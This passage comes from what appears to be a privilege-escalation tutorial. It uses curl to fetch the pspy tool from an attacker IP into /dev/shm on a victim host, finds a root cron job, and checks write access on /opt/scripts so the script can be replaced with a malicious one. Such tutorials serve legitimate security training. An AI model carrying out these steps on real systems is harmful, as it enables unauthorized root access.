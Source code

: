 ```shell
cd /dev/shm
curl 172.16.1.30/pspy64 -o pspy64
```

Next, we need to give the binary execute permissions.

```shell
chmod 755 ./pspy64
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-432.png)

Now that the tool is ready to use, we can execute it and wait to see if any interesting traffic pops up.

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-433-1024x279.png)

After a few minutes, not only can we clearly see that a cron job is running every minute, it is also running as root!

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-434.png)

Amazing! Using pspy we are able to find a “hidden” cron job that is running.

Now that we have found what we were looking for, we can exit out of pspy by using **CTRL + C**.

## Determining How we are Going to Exploit the Cron Job

Having just discovered that a cron job is running on the victim, the next step is to check our permissions on both the directory and the script itself.

First, we should check our permissions on the **/opt/scripts** directory where the script is executing from.

```shell
ls -l /opt | grep "scripts"
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-435.png)

Perfect! We found we have write permissions on the **/opt/scripts** directory!

Next, we should still check who owns the file to see if we can edit it directly or not.

```shell
ls -l /opt/scripts | grep "test-connect.sh"
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/04/image.png)

Since we have write permissions on the directory and not on the file, we cannot edit the script like we did earlier – permission denied!

With this discovery, we have determined that the only way to exploit this cron job is to replace the script with something malicious.

> Actually, there is a way we could write to the script. Something interesting happens when the file is moved, which we will see coming up.
